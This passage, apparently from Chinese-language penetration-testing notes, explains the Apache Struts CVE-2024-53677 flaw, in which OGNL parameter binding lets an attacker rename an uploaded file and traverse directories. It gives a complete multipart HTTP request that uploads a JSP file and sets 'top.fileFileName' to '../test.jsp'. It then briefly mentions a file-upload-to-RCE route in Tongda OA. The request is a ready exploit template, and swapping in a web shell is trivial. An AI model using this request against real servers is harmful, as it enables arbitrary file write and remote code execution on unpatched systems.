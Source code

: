 ```java
```

#### CVE-2024-53677

对于Struts 6.4.0之前的版本，通过Ognl参数绑定过程对文件名做修改实现路径穿越。

**原理：**

在 Struts2 中，所有参数在传递时，参数的键名都会进行 OGNL 表达式的计算。Struts2在执行请求时会创建一个ValueStack（值栈）用于访问Action属性，通常将当前的Action对象存入值栈顶层中。在Ognl表达式中可以通过\[0\]、\[1\]等来指定从栈的第几层开始执行表达式。\[0\]表示从栈顶开始，\[1\]表示从栈的第二层开始。因此可以通过`[0].top`直接获取到栈顶的`Action`对象并修改其中的参数。为了绕过过滤，可以利用"\[0\].top"等价于"top"这个条件。

**利用方式：**

```java
POST /index.action HTTP/1.1
Host: 10.180.99.132:8082
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=----geckoformboundary2894049506aa41cef56ce469f9d1a38
Content-Length: 377
Origin: http://10.180.99.132:8082
Connection: close
Referer: http://10.180.99.132:8082/index.action
Cookie: JSESSIONID=39CBC7F434AB6CA694685D5051AE3D79
Upgrade-Insecure-Requests: 1
Priority: u=0, i

------geckoformboundary2894049506aa41cef56ce469f9d1a38
Content-Disposition: form-data; name="file"; filename="test.jsp"
Content-Type: text/plain

<%
  out.println("hello world");
%>

------geckoformboundary2894049506aa41cef56ce469f9d1a38
Content-Disposition: form-data; name="top.fileFileName"

../test.jsp
------geckoformboundary2894049506aa41cef56ce469f9d1a38--
```


### 各类CMS

cms 太多了，不用整理，基本上都是 php 框架

### 通达oa

无cve，任意文件上传+文件包含 rce
